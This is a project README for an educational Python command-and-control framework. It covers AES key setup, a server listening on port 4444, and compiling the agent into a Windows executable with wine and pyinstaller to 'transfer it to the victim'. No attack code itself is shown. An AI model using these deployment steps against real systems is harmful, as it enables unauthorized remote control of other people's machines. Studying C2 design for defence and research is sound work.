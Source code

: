 # G-r00t C2 project

This is a work in progress project. The goal is to learn more about C2 communications infrastructure.

## Disclaimer

This Command and Control (C2) tool is developed solely for educational and research purposes. It is intended to help users understand the principles of C2 communication, cybersecurity testing, and network security in a controlled and lawful environment.

### Usage Policy

This tool is strictly for learning and authorized testing purposes only.
Unauthorized use against any system, network, or individual without explicit permission is illegal and strictly prohibited.

The author does not condone, endorse, or support any malicious activities. Misuse of this tool to target networks, systems, or devices without consent may result in legal consequences. The author and contributors assume no responsibility for any damages or legal issues caused by misuse.
Responsible Usage

By using this tool, you agree to use it responsibly and legally within the bounds of ethical hacking, training, or research in a controlled environment.

## Encryption setup

This C2 framework uses AES encryption for communication.
The first step is to generate the secrets (key and IV) and add them to the agent and sevrer python script. 
To generate the secrets you can use the provided secretsGenerator.py script. 

Once the secrets are generated you will need to add them to agent.py and server.py

## Server

The server by default lsiten to 0.0.0.0:4444.
You can change this in the variables host and port.
Once done you can just run it with python.

## Agent cross-compiling 

To crosscompile the agent for Windows I used wine. 
You can follow this guide to setup Python and pyinstaller in wine: 

https://www.makeworld.space/2021/10/linux-wine-pyinstaller.html

Once the environment in wine is setup you will need to install the requirements:

```
wine C:/path/to/python.exe -m pip install -r requirements.txt
```

To compile the agent you can run:

```
wine C:/path/to/Scripts/pyinstaller.exe --onefile --add-binary "C:/path//to/python38.dll;." --name agent agent.py
```

Once the agent is compiled, you will find the executable in the dist/ folder.  
You can now transfer it to the victim and use it by specifying the IP and PORT of the server:

```
agent.py <SERVER_IP> <SERVER_PORT>
```



## To do list:


- Integrate pinggy
- Implement Telegram as an Additional Channel
- Extra functionalities
  -   Upload download files sunctionalities